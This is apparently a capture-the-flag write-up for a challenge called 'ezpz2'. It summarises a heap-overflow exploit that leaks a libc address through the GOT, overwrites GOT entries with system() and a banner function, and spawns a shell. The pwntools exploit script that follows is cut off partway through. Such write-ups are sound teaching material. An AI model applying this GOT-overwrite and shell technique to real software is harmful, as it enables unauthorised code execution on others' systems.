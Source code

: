 ```python
p.close()
```


ezpz2
==========================================================
General overview:
----------------------------------------------------------
1. Could write into heap using buffer overflow in set_question() function
2. Leaked the address for puts() in libc by writing it's GOT address into heap buffer and using ask_question() to derefence it.
3. Used the puts() address to find the libc base. Used libc base to find system()
4. Used the print_banner() function (which behaved very similarly to win() from ezpz1) to pop a shell
    * Replaced puts() in GOT with system() from libc
    * Wrote "/bin/sh\x00" to the banner buffer
    * Replaced exit() in GOT with print_banner()
5. After replacing these functions, I just had to invoke exit() (I chose exit() as it wasn't called normally, so I wouldn't have a confusing flow of execution.)

Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy1lenB6MiIsImlwIjoiMTAxLjE2NC4zMy4yMTkiLCJzZXNzaW9uIjoiYzcwY2Q2ODAtMDEyZi00ZmZiLTliYmItYWNmZmNhMTljZGQyIn0.cuU8HM08HtQrLuJ2zeT69zz9F9nXrzz8vBXOj23qhoY}

Script used:
----------------------------------------------------------

```python
#!/usr/bin/env python2.7

from pwn import *

def create():
    p.sendlineafter("):", "C")

def destroy(id):
    p.sendlineafter("):", "D")
    p.sendlineafter("id:", str(id))

def set(id, question):
    p.sendlineafter("):", "S")
    p.sendlineafter("id:", str(id))
    p.sendlineafter("question:", question)

def ask(id):
    p.sendlineafter("):", "A")
    p.sendlineafter("id:", str(id))
    p.recvuntil("'")
    return p.recvuntil("'", drop=True)

# Writes a string to the supplied memory address
def write_memory(src, dest):
    set_memory(src)
    set(1, dest)

# Reads memory at the supplied address
def read_memory(src):
    set_memory(src)
    return u32(ask("1")[:4])

# Sets the question pointer of Q1 to be the supplied memory address
def set_memory(src):
    payload = p32(0x0) * 0x7
    payload += p32(0x00000021)
```